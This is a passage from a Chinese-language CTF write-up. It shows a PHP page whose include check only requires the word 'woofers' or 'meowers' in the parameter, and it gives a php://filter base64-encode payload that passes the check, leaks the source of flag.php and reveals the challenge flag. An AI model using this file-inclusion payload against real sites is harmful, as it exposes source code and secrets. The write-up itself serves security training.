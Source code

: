 				if(isset($file))
				{
					if( strpos( $file, "woofers" ) !==  false || strpos( $file, "meowers" ) !==  false || strpos( $file, "index")){
						include ($file . '.php');
					}
					else{
						echo "Sorry, we currently only support woofers and meowers.";
					}
				}
				?>
			</div>
	      <form action="index.php" method="get" id="choice">
	          <center><button onclick="document.getElementById('choice').submit();" name="category" value="woofers" class="mdl-button mdl-button--colored mdl-button--raised mdl-js-button mdl-js-ripple-effect" data-upgraded=",MaterialButton,MaterialRipple">Woofers<span class="mdl-button__ripple-container"><span class="mdl-ripple is-animating" style="width: 189.356px; height: 189.356px; transform: translate(-50%, -50%) translate(31px, 25px);"></span></span></button>
	          <button onclick="document.getElementById('choice').submit();" name="category" value="meowers" class="mdl-button mdl-button--colored mdl-button--raised mdl-js-button mdl-js-ripple-effect" data-upgraded=",MaterialButton,MaterialRipple">Meowers<span class="mdl-button__ripple-container"><span class="mdl-ripple is-animating" style="width: 189.356px; height: 189.356px; transform: translate(-50%, -50%) translate(31px, 25px);"></span></span></button></center>
	      </form>
	
	      </div>
	    </div>
	  </main>
	</div>
	<script src="js/material.min.js"></script>
  </body>
</html>

### php伪协议添加一个必须要的单词不会影响正常的包含

```
php://filter/read=convert.base64-encode/woofers/resource=index
```

这样提交的参数既包含有woofers这个字符串，也不会影响正常的包含，得到Flag.php：

[![img](https://img2020.cnblogs.com/blog/1212355/202003/1212355-20200326212959322-1950812728.png)](https://img2020.cnblogs.com/blog/1212355/202003/1212355-20200326212959322-1950812728.png)

解码得到Flag：



```
<!-- Can you read this flag? -->
<?php
 // flag{a4aaba40-84f9-4b7a-b269-d025b03676a1}
?>
```

## [BJDCTF2020]ZJCTF，不过如此
